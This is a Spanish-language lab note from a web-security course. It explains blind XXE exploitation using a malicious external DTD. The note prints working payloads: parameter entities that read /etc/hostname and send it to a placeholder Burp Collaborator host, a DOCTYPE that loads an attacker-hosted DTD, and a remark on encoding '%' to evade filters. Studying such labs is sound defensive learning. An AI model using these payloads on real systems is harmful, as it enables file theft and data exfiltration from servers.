 En esta clase continuamos con el mismo laboratorio anterior, centrado en la explotación de una vulnerabilidad XXE ciega mediante una DTD externa maliciosa. Ya tenemos definido y alojado el archivo DTD en nuestro exploit server, y ahora utilizamos este recurso para finalizar la exfiltración del contenido del archivo /etc/hostname.

Repasamos cómo se estructura correctamente la carga XML que referencia esa DTD, y analizamos los resultados obtenidos en Burp Collaborator para verificar que la petición externa con los datos del archivo fue realizada correctamente. Este enfoque consolida el uso de entidades parametrizadas en DTD externas como una técnica poderosa para filtrar información sensible en entornos sin salida directa.

Solucion
Explicacion de los payloads
(<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;)
## 🧩 Desglose paso a paso

### 1. `<!ENTITY % file SYSTEM "file:///etc/hostname">`

- Declara una **entidad de parámetro** llamada `%file`.
    
- Su contenido será el **contenido real del archivo `/etc/hostname`** (en sistemas Unix/Linux, este archivo contiene el nombre del host del sistema).
    

---

### 2. `<!ENTITY % eval "...">`

- Declara una **nueva entidad de parámetro** llamada `%eval`.
    
- Su contenido es **otra declaración de entidad DTD**, codificada como texto.
    

xml

CopiarEditar

`"<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"`

- Aquí `&#x25;` es el **carácter `%` en hexadecimal**, usado para evadir filtros.
    
- Esto crea una entidad llamada `%exfil`, cuyo valor será el resultado de una petición a:
    
    ruby
    
    CopiarEditar
    
    `http://BURP-COLLABORATOR-SUBDOMAIN/?x=[contenido de /etc/hostname]`
    

---

### 3. `%eval;`

- Expande la entidad `%eval`, lo que **inyecta dinámicamente la declaración de `%exfil`** en el DTD.
    

---

### 4. `%exfil;`

- Finalmente se **invoca `%exfil`**, lo que hace que el servidor **haga una solicitud HTTP al dominio del atacante**, enviando como parámetro el contenido de `/etc/hostname`.

El otro payload (<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>)

## 🧩 ¿Qué hace este payload?

### 1. `<!ENTITY % xxe SYSTEM "YOUR-DTD-URL">`

- Declara una **entidad de parámetro** llamada `%xxe`.
    
- Su valor **no está definido localmente**, sino que se obtiene desde una **URL externa controlada por el atacante** (tu propia DTD personalizada).
    

### 2. `%xxe;`

- Expande esa entidad, lo que **inyecta el contenido del archivo DTD remoto** dentro del DTD local.
    
- Ese contenido puede incluir **nuevas entidades**, como:
    
    - Lectura de archivos locales.
        
    - Exfiltración de datos a través de HTTP.
        
    - Denegación de servicio, etc.

![[Pasted image 20250730200622.png]]
